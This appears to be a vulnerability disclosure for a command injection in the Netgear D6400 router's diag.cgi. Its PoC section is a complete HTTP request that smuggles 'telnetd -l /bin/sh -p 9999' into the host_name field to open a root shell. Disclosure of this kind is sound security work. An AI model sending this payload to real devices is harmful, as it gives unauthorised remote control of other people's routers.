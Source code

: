 # Netgear Vulnerability

Vendor:Netgear 

Product:D6400

Version:1.0.0.114

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in Netgear router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `httpd` binary:

In `diag.cgi` function, `host_name` is directly passed by the attacker, so we can control the `host_name` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `host_name` as **`telnetd -l /bin/sh -p 9999`** , and the router will excute it,such as:

```http
POST /diag.cgi?id=9d5f365e5fd3b51328eda5222af8abf2cfbe4b559d23d0fac3f93a9ebf61d8bc HTTP/1.1
Host: 10.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 109
Origin: http://10.0.0.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://10.0.0.1/DIAG_diag.htm
Cookie: XSRF_TOKEN=1222440606
Upgrade-Insecure-Requests: 1

lookup=Lookup&IPAddr1=192&IPAddr2=168&IPAddr3=1&IPAddr4=1&host_name=`telnetd -l /bin/sh -p 9999`&ping_IPAddr=
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>
